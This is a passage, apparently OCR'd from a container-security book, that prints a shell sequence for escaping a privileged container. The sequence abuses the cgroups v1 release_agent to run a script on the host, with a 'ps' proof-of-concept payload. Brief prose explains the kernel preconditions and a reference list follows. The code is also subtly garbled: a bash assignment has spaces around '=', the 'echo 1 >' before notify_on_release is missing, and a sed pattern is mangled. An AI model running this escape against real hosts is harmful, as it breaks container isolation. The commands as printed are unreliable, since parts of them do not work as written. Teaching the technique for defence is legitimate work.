 ```

# exit
exit
```

#### Abusing Cgroups

```
# Set the directory to /sys/fs/cgroup/rdma
dir = `dirname $(ls -x /s*/fs/c*/*/r* | head -n1)`

echo $dir

ls $dir

mkdir -p $dir/w

$dir/w/notify_on_release

cat $dir/w/notify_on_release

# locate our overlay ﬁle system location
mtab=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)

echo $mtab

touch /output

echo $mtab/cmd > $dir/release_agent; printf '#!/bin/sh\nps >'"$mtab/output" > /cmd

cat /cmd

#make the command executable and tell the cgroup that we created in /w to exit
chmod +x /cmd;sh -c "echo 0 > $dir/w/cgroup.procs";sleep 1;cat /output
```

> Why is this possible? How can we accomplish these commands? First of all, the cgroups v1 system has to be in place, which will be in place for quite some time, as the Linux Kernel did not introduce cgroups v2 until Kernel version 4.5 and was not in major distribution until Fedora 31. Ubuntu 18.04 LTS and 20.04 LTS still use cgroups v1, as do many RedHat distributions still in use today. The next thing we need is either the --privilege ﬂag or the kernel capabilities that enable mount. This is just one example of many in which a kernel attack can lead to system compromise. Have you ever seen any kernel exploits in the wild that may also be a vehicle for this?

***

## REFERENCES

* www.kernel.org/doc/html/latest/admin-guide/cgroup-v1/cgroups.html
* www.netdevconf.info/1.1/proceedings/slides/rosen-namespaces-cgroups-lxc.pdf
* www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
* www.github.com/opencontainers/image-spec/blob/master/spec.md
* www.kernel.org/doc/Documentation/cgroup-v2.txt
* www.docs.docker.com/engine/api/v1.41/
* www.twitter.com/\_fel1x/status/1151487051986087936
